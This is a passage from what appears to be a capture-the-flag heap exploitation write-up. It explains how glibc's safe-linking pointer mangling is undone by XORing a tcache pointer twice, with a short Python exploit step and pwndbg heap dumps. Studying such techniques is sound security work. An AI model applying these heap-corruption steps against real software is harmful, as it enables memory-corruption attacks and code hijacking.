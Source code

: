 
This is exactly what we want!

Now the way `protect_ptr` works is that it takes the address of what `free` is called on, shifts it by 12, then takes that and `xor's` it with the pointer stored in the chunk.
However since the protection mechanism is `xor`, it means that to "decrypt" it, we simply need to `xor` it again. And by first indexing it in to one `t-cache bin`, then referencing it from another `t-cache bin`, it will effectively be `xor`'d twice, leaving the original pointer.


Overwrite the `LSB` of the `0x190` chunk to point to the "protected" pointer in the `per-thread cache` for the `0x20` index:
```python
# Free the per-thread cache pointer again so we can use it to overwrite LSB of t-cache entries again
free(mgmt)

# Fake a chunk and make the LSB of 0x20 t-cache point to the WIN condition pointer
malloc(0x288, p16(0x6090), 0x138)
```

This makes it so the `0x190` `t-cache` points right above the `per-thread cache` of `0x20`, which now contains a "protected" pointer.

Now, if we inspect the heap, it will look like the following:

```
pwndbg> vis 2

0x556630af6000	0x0000000000000000	0x0000000000000291	................
0x556630af6010	0x0000000556630af6	0x0000000000000000	..cV............
0x556630af6020	0x0000000000000000	0x0000000000000000	................
0x556630af6030	0x0000000000000000	0x0002000000000000	................
0x556630af6040	0x0000000000000000	0x0000000000000000	................
0x556630af6050	0x0000000000000000	0x0000000000000000	................
0x556630af6060	0x0000000000000000	0x0000000000000000	................
0x556630af6070	0x0000000000000000	0x0000000000000000	................
0x556630af6080	0x0000000000000000	0x0000000000000191	................
0x556630af6090	0x000001ac08636af6	0x0000000000000000	.jc.............	 <-- tcachebins[0x190][0/2]
0x556630af60a0	0x0000000000000000	0x0000000000000000	................
0x556630af60b0	0x0000000000000000	0x0000000000000000	................
0x556630af60c0	0x0000000000000000	0x0000000000000000	................
0x556630af60d0	0x0000000000000000	0x0000000000000000	................
0x556630af60e0	0x0000000000000000	0x0000000000000000	................
0x556630af60f0	0x0000000000000000	0x0000000000000000	................
0x556630af6100	0x0000000000000000	0x0000000000000000	................
0x556630af6110	0x0000000000000000	0x0000000000000000	................
0x556630af6120	0x0000000000000000	0x0000000000000000	................
0x556630af6130	0x0000000000000000	0x0000000000000000	................
0x556630af6140	0x0000000000000000	0x0000556630af6090	.........`.0fU..

[...]

0x556630af6290	0x0000000000000000	0x0000000000000021	........!.......
0x556630af62a0	0x000001a95e3f3f3f	0x0000000000000000	???^............
0x556630af62b0	0x0000000000000000
pwndbg> bins
tcachebins
0x20 [2806]: 0x1ac08636af6
0x30 [22115]: 0x0
0x40 [  5]: 0x0
0x190 [  2]: 0x556630af6090 —▸ 0x1a95e006000 ◂— 0xf00dbeefd06bf331

```
